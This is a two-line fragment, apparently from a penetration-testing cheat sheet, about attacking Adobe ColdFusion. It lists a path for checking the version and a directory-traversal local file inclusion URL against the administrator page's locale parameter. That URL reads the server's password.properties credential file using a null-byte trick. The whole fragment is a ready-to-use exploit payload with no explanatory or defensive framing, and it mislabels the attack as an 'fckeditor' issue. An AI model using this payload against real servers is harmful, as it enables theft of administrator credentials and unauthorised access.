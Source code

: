 - `check version /CFIDE/adminapi/base.cfc?wsdl`
- `fckeditor Version 8  LFI > http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en`
